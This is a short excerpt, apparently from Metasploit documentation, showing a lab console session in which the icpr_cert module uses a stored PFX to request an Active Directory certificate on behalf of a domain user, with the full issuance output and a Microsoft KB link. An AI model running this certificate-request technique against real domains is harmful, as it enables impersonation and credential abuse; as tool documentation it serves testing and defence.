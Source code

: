 ```msf
msf auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/smcintyre/.msf4/loot/20221107154656_default_unknown_windows.ad.cs_831021.pfx
PFX => /home/smcintyre/.msf4/loot/20221107154656_default_unknown_windows.ad.cs_831021.pfx
msf auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF MSFLAB\\smcintyre
ON_BEHALF_OF => MSFLAB\smcintyre
msf auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Building certificate request on behalf of MSFLAB\smcintyre
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate UPN: smcintyre@msflab.local
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107154740_default_unknown_windows.ad.cs_567059.pfx
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/icpr_cert) >
```

[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16

